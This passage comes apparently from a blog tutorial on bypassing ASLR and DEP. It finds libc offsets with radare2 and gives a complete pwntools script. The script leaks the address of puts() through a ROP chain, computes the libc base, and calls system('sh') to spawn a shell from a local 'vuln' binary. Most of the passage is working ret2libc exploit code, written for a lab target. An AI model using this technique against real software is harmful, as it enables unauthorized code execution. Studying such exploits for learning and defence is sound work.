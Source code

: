The lines of interest are:

```
0000000000045390 <__libc_system@@GLIBC_PRIVATE>:
000000000006f690 <_IO_puts@@GLIBC_2.2.5>:
```

I found the **offset** of the **"sh"** string inside **libc** using **radare2**. Pick one.

{% include image.html url="/imgs/posts/bypassing-aslr-dep-getting-shells-with-pwntools/bypass_aslr_dep_sh_address.webp" description="Offsets of various 'sh' strings inside libc (radare2)" %}



Subtracting `puts()`'s offset from the leaked `puts@libc` address gives us the **base address** of libc (the start of the memory region where it is mapped for the current process).
By adding the offset of `system()` we get a call to `system@libc`.

Now, we can adapt the previous script in order to create the second payload that makes the call.

```python
from pwn import *

r = process('vuln')

main_address = 0x00400566
puts_got_address = 0x0000000000601018
puts_plt_address = 0x0000000000400430
pop_rdi_ret_address = 0x00000000004005f3

puts_libc_offset = 0x000000000006f690
system_libc_offset = 0x0000000000045390
sh_libc_offset = 0x00011e70

payload = 'A'*56 + p64(pop_rdi_ret_address) + p64(puts_got_address) + p64(puts_plt_address) + p64(main_address)

r.sendline(payload)
print r.recvline()

leaked_output = r.recvline()
leaked_output = leaked_output[:-1]

print('leaked puts() address', leaked_output)

leaked_output += '\x00\x00'

puts_libc_address = u64(leaked_output)

system_libc_address = puts_libc_address - puts_libc_offset + system_libc_offset
print('system() address', p64(system_libc_address))

sh_libc_address = puts_libc_address - puts_libc_offset + sh_libc_offset

payload = 'A'*56 + p64(pop_rdi_ret_address) + p64(sh_libc_address) + p64(system_libc_address) + p64(main_address)

r.sendline(payload)

print(r.recvline()) # hi there

#r.sendline(payload)

r.interactive()
```
